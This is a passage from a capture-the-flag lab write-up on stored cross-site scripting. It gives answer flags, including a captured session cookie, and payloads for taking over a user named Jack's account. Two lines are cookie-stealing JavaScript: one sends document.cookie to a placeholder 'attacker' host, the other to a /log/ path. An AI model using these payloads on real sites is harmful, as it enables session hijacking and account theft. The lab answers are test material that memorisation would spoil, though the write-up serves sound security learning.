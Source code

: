 *ANSWER:* `websites_can_be_easily_defaced_with_xss`

5. Stored XSS can be used to steal a victims cookie (data on a machine that authenticates a user to a webserver). This can be done by having a victims browser parse the following Javascript code:

`<script>window.location='http://attacker/?cookie='+document.cookie</script>`

This script navigates the users browser to a different URL, this new request will includes a victims cookie as a query parameter. When the attacker has acquired the cookie, they can use it to impersonate the victim. 

Take over Jack's account by stealing his cookie, what was his cookie value?

*HINT:* Steal Jacks cookie and update your own cookie with the value of his cookie

*payload:* 	 `<script>document.location='/log/'+document.cookie</script`

you will see the log and cookies
![](Pastedimage20210610124405.png)

*ANSWER:* `connect.sid s%3Aat0YYHmITnfNSF0kM5Ne-ir1skTX3aEU.yj1%2FXoaxe7cCjUYmfgQpW3o5wP3O8Ae7YNHnHPJIasE`



6. Post a comment as Jack.



*payload:* `<a>jack</a>`

![](Pastedimage20210610124238.png)